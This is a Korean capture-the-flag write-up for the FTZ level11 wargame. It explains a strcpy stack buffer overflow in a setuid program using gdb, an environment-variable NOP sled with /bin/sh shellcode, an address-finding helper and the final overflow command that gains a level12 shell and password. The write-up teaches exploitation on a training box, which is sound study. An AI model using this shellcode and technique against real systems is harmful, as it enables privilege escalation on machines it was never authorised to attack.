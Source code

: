 # FTZ level11

ls 명령어를 치자.

__attackme , hint , public_html , tmp__ 

cat hint 명령어를 사용하여 힌트를 확인해 보자.  

```
#include <stdio.h>
#include <stdlib.h>
 
int main( int argc, char *argv[] )
{
	char str[256];

 	setreuid( 3092, 3092 );
	strcpy( str, argv[1] );
	printf( str );
} 
```

코드가 나오는데 str에 [256]버퍼를 담고 __setreuid( 3092, 3092 );__ setuid 설정 strcpy로 인자를 복사해 str에 넣어 출력하는 코드이다.  

이것은 버퍼오버플로우 문제이다. __strcpy__ 함수에는 큰 취약점이 하나 존재하는데 입력된 값의 버퍼를 확인하지 않고 복사해버리는 것이다. 그것을 이용하여 BOF를 하는 문제이다.

그럼 return address 까지의 버퍼를 찾아야 하기 때문에 gdb를 이용할 것이다.

___

gdb를 확인해보면 중간 코드에 

```
0x08048499 <main+41>:	lea    eax,[ebp-264]
0x0804849f <main+47>:	push   eax
0x080484a0 <main+48>:	call   0x804835c <strcpy>
```

이러 코드가 보일 것이다. 잘 생각해보면 버퍼가 코드에 비해 8더 많다는 것을 확인 할 수 있을 것이다. 8은 메모리 보호 기법에 의한 더미이다.

__메모리 보호 기법에 잠깐 설명하면 운영 체제에서 실행하고 있는 프로세스가 자신에게 할당되지 않은 영역의 메모리에 접근하는 것이 메모리 보호의 주된 목적이다.__

__이를 통해 프로세스 내의 버그가 다른 프로세스의 동작에 영향을 미치는 것을 예방하며 악성 소프트웨어가 시스템에서 허가되지 않은 접근 권한을 갖고 시스템에 영향을 끼치는 것을 막아준다.__

그럼 return address는 어디에 있을까?

| str [264]      | 할당된 버퍼이다. |
| -------------- | ---------------- |
| ebp            | base pointer     |
| return address | 여기가 그곳이다. |

조잡하지만 위를 잠깐 보자. 각 한 칸을 4바이트씩 차지 한다. 그럼 주소는 268이후에 있지 않을까?



___

이제 한번 시작해 보자.

NOP를 이용하여 풀것이기 때문에 환경변수를 이용할 것이다.

__NOP(0x90)은 어셈블리 언어로 아무것도 하지 않는 명령어이다. 그래서 NOP으로 쉘 코드의 앞뒤를 감싸게 되면 buf의 정확한 주소가 아닌 근사값의 주소여도 결국 쉘 코드가 실행될 수 있게된다.__

```
export EGG=`python -c 'print "\x90" * 1000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

환경변수에 쉘코드를 집어 넣고 넉넉하게 NOP를 1000번 입력할것이다. 

return address에는 쉘 코드가 아닌 주소가 들어가야 해야하다. 그러니 아주 짧은 코드를 짤 것이다.

cd tmp 명령어로 들어가자 tmp에서 코드를 짜보자

```
#include <stdio.h>

int main() {
        printf("%p\n", getenv("EGG"));
}
```

이런 씩의 코드이다. __getenv__ 함수는 환경 변수의 값을 가져오는 함수이다.

gcc를 이용하여 컴파일 후 실행을 해보면 주소값이 나온다.

나의 주소값은 __0xbffff4b4__이런게 나왔다. 메모리에 저장 되는 주소가 무작위이다 보니까 다 똑같이 나올 수 없다. 이제 대입만 하면 끝이 난다.

___

자 이제 원래 home으로 돌아와서 attackme 인자에 대입을 해보자.

```
./attackme `python -c 'print "A" * 268 + "\xb4\xf4\xff\xbf"'`
```

__"A" * 268__ 이부분은 버퍼와 ebp를 덮기 위해 아무 문자열이나 넣어준것이고 그 이후 return address에 쉘코드 주소값을 리틀 엔디안으로 넣어주면 쉘이 실행이된다. 만약 잘 모르겠다면 쉘 실행이후 __whoami__ 명령을 입력하면     level12라고 나온다. 

이제 my-pass 명령을 입력하면 __Level12 Password is "it is like this".__ 라면서 패스워가 나타난다.

